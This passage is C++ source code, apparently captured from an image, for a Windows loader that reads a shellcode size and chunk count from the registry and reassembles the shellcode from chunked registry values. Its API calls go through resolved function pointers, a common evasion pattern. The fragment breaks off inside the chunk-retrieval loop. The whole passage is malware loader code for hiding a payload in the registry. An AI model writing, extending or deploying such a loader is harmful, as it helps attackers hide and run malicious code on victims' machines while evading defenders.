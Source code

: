 ```cpp
    dwSize = sizeof(shellcodeSize);
    value = (LPCTSTR)sbValue;
    result = RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &shellcodeSize, &dwSize);
    if (ERROR_SUCCESS != result || 0 == shellcodeSize) {
        return EXIT_FAILURE;
    }

#ifdef _DEBUG
    printfFunc("N bytes to restore: %u\n", shellcodeSize);
#endif

#ifdef USE_REGISTRY_FOR_DLL

    cbBuf = (UCHAR*)mallocFunc(shellcodeSize * sizeof(UCHAR));
    if (NULL == cbBuf) {
        return EXIT_FAILURE;
    }
    memsetFunc(cbBuf, 0, shellcodeSize);

    UINT nChunks = 0;
    UINT remainingBytes = shellcodeSize;
    UINT copyingNow = CHUNKSIZE;
    value = (LPCTSTR)nChunksValue;

    int counter = 0;

    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &nChunks, &dwSize) == ERROR_SUCCESS) {
        if (0 == nChunks) {
            return EXIT_FAILURE;
        }

#ifdef _DEBUG
        printfFunc("Number of chunks to retrieve: %u\n", nChunks);
#endif

        for (int i = 0; i < nChunks; i++) {
#ifdef _DEBUG
            printfFunc("Chunk to retrieve: %u\n", i);
#endif
            copyingNow = remainingBytes >= CHUNKSIZE ? CHUNKSIZE : remainingBytes;

            tmpBuf = (UCHAR*)mallocFunc(copyingNow * sizeof(UCHAR));
            if (NULL == tmpBuf) {
                i--;
                continue;
            }
            memsetFunc(tmpBuf, 0, copyingNow);

            if (i == 0) {
                value = (LPCTSTR)chunkValue1;
            }
            else if (i == 1) {
                value = (LPCTSTR)chunkValue2;
            }
            else {
                value = (LPCTSTR)chunkValue3;
            }

            // We retrieve the saved chunk of bytes
            dwSize = copyingNow;
            RegGetValueFunc(hKey, NULL, value, RRF_RT_REG_BINARY, NULL, tmpBuf, &dwSize);

```